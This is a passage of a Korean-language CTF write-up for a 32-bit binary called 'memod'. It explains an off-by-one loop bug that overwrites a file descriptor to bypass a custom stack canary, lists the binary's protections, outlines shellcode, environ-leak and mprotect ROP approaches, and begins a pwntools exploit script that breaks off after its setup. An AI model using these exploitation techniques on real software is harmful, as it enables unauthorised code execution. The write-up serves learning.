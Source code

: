 ``` c
  }
```

다음으로 눈에 띈 것이 for문의 조건문이다.
`file` 배열이 32바이트인 반면 조건문이 `i <= 32`로 되어있기 때문에 마지막 loop에서 `file[32]`가 `fd`의 가장 하위 바이트를 가리키게 된다.

## 0x02. Exploit
위 취약점을 이용해서 `fd`를 overwrite하게 되면 생기는 문제는 다음과 같다.

``` c
  fd = open("/dev/urandom", 0);
  read(fd, &canary_backup, 4u);
  canary = canary_backup;
```

애써 `/dev/urandom`을 `open()`해서 저장한 `fd`가 엉뚱한 값으로 바뀌게 된다.
`fd`를 0으로 덮어서 `stdin`을 만들어 내가 입력을 줄 수도 있고, 엉뚱한 `fd`가 있으면 프로세스를 종료되지 않고, `canary_backup`에 아무런 값이 써지지 않기 때문에 엉뚱한 값으로 덮어도 된다.

따라서 `fd`를 엉뚱한 값으로 덮고 지역 변수인 `canary`에 `0x00000000`을 넣어주면 `memcmp()`를 통과할 수 있다.

``` bash
[*] '/home/user/memod'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

이제 exploit을 위해서 바이너리를 살펴보니 NX가 꺼져있어서 쉘코드를 통해 쉘을 띄우려고 했다.
**그런데 아무리 찾아봐도 stack leak이 될만한 부분이 없었다...**
고민하는 과정에서 libc에 있는 `environ` 변수를 이용한 stack leak 기법을 찾았는데, 한번도 이렇게 leak을 해본 적이 없어서 이를 활용한 payload를 작성했다.

물론 ROP로도 풀이가 가능해서 `mprotect()`를 이용한 ROP로도 payload를 작성했다.

## 0x03. Payload
### environ을 이용한 payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "memod"
LIBRARY = "libc.so.6"

bp = {
    'read_of_main' : 0x08048703,
    'fgets_of_main' : 0x804875a,
    'canary_backup' : 0x08049b2c,
    'end_of_main' : 0x080487ce,
}

gs = f'''
b *{bp['fgets_of_main']}
b *{bp['end_of_main']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
```